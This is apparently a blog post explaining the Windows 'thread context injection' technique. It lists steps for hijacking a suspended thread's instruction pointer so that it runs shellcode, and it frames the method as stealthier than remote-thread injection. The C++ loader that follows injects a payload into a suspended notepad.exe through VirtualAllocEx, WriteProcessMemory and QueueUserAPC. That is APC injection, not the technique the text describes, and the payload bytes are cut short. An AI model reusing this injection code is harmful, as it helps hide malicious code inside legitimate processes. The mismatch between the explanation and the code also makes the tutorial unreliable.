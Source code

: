 In the classic injection we create a remote thread in another process.
In the thread context injection, the shellcode we want to execute does not spawn a thread, but uses an existing thread of a process, which can be more stealthy as no new thread is being created and run our shellcode in that thread. 

The high-level steps for the thread context injection are the following:
- Get a handle to a victim process
- Get a handle to a victim thread in the process
- Sleep that thread 
- Change the EIP (Instruction pointer) of the thread so it points to our shellcode
- Resume the thread execution
The result will be that the thread continues its execution after sleeping and runs our shellcode.
The drawback of this technique is that the thread, once it executes the shellcode, does not know what to do, as we modified the EIP and it does not longer point to the original routine.
At the point of writing this blog, I wonder what happens if we modify the EIP again after our shellcode is executed... Good question.

The basic code that implements this injection is the following:

```c++
int main() {

	unsigned char payload[] = {
	  0xfc, 0x48, ...
	};

	size_t payload_size = sizeof(payload);
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA("notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi); // We creaete the process in suspended state.
	HANDLE hVictimProcess = pi.hProcess;
	HANDLE hThread = pi.hThread;

	LPVOID lpShellcodeAddress = VirtualAllocEx(hVictimProcess, NULL, payload_size, MEM_COMMIT, PAGE_EXECUTE_READWRITE); // We create a memory region in the suspended process
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE) lpShellcodeAddress; // Create the routine that points to the shellcode

	WriteProcessMemory(hVictimProcess, lpShellcodeAddress, payload, payload_size, NULL); // We write the shellcode in the memory region
	QueueUserAPC((PAPCFUNC)apcRoutine, hThread, NULL); // Add the APC routine to the APC queue

	ResumeThread(hThread);

	return EXIT_SUCCESS;

}
```